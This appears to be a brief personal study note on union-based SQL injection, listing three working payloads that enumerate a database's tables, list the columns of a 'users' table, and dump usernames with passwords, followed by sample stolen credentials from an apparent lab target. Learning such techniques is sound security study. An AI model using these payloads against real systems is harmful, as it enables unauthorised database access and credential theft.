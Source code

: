 # Learning SQL Injection

Just taking some notes about different SQL Injections.

#### This will display the tables
```
id=0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = database()--
```
#### This will display the columns from the selected table
```
id=0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'users'--
```
#### This will display the username and password
```
id=0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM users
```
##### Example
```
- admin:p4ssword
- martin:pa$$word
- jim:work123
```

